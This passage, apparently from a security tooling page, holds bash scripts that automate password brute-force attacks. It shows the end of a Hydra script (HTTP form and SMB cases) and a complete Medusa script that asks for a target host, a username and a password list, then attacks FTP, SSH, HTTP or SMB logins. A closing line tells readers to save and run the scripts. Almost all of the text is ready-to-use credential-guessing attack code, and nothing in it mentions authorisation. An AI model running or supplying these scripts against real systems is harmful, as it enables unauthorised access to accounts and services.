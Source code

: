 ```bash
    3)
        echo "Performing HTTP brute force attack..."
        read -p "Enter the URL path (e.g., /login): " urlpath
        hydra -l "$username" -P "$passlist" http-form-post "$target$urlpath"
        ;;
    4)
        echo "Performing SMB brute force attack..."
        hydra -l "$username" -P "$passlist" smb://"$target"
        ;;
    *)
        echo "Invalid option selected."
        ;;
esac
```

### Medusa Automation

```bash
#!/bin/bash

echo "Let's perform a Medusa brute force attack..."

echo "-----------------------------------------------
Select the type of attack you want to perform:
1. FTP
2. SSH
3. HTTP
4. SMB
------------------------------------------------"

read -p "Option you selected ==> " option

read -p "Enter the target IP or hostname: " target
read -p "Enter the username: " username
read -p "Enter the password list path: " passlist

case "$option" in
    1)
        echo "Performing FTP brute force attack..."
        medusa -h "$target" -u "$username" -P "$passlist" -M ftp
        ;;
    2)
        echo "Performing SSH brute force attack..."
        medusa -h "$target" -u "$username" -P "$passlist" -M ssh
        ;;
    3)
        echo "Performing HTTP brute force attack..."
        read -p "Enter the URL path (e.g., /login): " urlpath
        medusa -h "$target" -u "$username" -P "$passlist" -M http -m DIR:"$urlpath"
        ;;
    4)
        echo "Performing SMB brute force attack..."
        medusa -h "$target" -u "$username" -P "$passlist" -M smb
        ;;
    *)
        echo "Invalid option selected."
        ;;
esac
```

Each script is designed to automate the usage of a specific tool with common options. Save each script to a file, make them executable, and run them as needed. Ensure the respective tool is installed and properly configured on your system before running the scripts.